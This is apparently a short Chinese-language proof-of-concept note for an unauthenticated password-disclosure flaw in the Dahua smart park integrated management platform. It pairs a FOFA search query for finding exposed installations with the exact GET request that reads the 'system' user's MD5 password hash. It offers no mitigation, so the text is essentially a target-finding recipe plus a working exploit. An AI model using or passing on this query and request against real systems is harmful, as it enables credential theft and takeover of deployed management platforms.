 # 大华智慧园区任意密码读取攻击

1.漏洞描述

大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。由于该平台未对接口权限做限制，攻击者可以从`user_getUserInfoByUserName.action`接口获取任意用户密码(MD5格式)

2.搜索语法

```plain
fofa：app="dahua-智慧园区综合管理平台"
```

3.漏洞复现

```plain
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
```

响应包显示如下

![image-20240613202058959](D:\py\POC\大华智慧园区任意密码读取攻击\image-20240613202058959.png)